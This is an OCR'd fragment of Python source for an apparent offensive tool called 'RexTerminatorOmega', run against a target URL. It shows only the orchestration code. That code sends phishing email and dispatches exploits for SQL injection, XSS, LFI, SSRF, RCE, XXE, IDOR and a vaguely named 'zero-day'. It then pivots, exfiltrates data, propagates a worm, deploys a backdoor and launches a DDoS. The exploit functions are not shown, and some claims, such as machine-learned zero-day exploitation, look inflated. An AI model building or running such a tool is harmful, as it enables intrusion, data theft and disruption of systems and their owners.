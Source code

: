         tasks.append(self.pool.apply_async(self.test_csrf, ()))
        tasks.append(self.pool.apply_async(self.test_file_upload, (self.target_url,)))

        for task in tasks:
            task.wait()

        asyncio.run(self.send_phishing_email("target@example.com"))

        self.train_model()
        self.train_rl_model()

        for vuln in self.vulnerabilities:
            if self.predict_exploitability(vuln):
                action = self.choose_next_action()
                if action == "exploit":
                    if vuln["type"] == "SQL Injection":
                        self.exploit_sql_injection(vuln)
                    elif vuln["type"] == "XSS":
                        self.exploit_xss(vuln)
                    elif vuln["type"] == "LFI":
                        self.exploit_lfi(vuln)
                    elif vuln["type"] == "Open Redirect":
                        self.exploit_open_redirect(vuln)
                    elif vuln["type"] == "CSRF":
                        self.exploit_csrf(vuln)
                    elif vuln["type"] == "SSRF":
                        self.exploit_ssrf(vuln)
                    elif vuln["type"] == "RCE":
                        self.exploit_rce(vuln)
                    elif vuln["type"] == "XXE":
                        self.exploit_xxe(vuln)
                    elif vuln["type"] == "IDOR":
                        self.exploit_idor(vuln)
                    elif vuln["type"] == "File Upload":
                        self.exploit_file_upload(vuln)
                    elif vuln["type"] == "Zero-Day":
                        self.exploit_zero_day(vuln)
                elif action == "pivot":
                    self.pivot_network()
                elif action == "exfiltrate":
                    self.exfiltrate_data()
                elif action == "propagate":
                    self.propagate_worm()

        self.deploy_backdoor()
        self.launch_ddos()

        self.retrain_ml_model()
        print("[*] Attack completed. Check rexterminator.log for details.")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python rexterminator_omega.py <target_url>")
        sys.exit(1)
    target_url = sys.argv[1]
    rex = RexTerminatorOmega(target_url)
    rex.run()
